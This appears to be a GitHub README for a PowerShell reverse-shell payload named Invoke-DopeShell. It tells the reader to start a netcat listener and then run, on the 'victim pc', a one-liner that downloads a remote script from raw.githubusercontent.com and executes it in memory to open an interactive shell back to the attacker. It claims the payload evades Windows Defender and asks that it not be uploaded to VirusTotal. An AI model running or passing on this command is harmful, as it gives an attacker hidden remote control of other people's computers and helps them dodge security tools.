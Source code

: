 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 
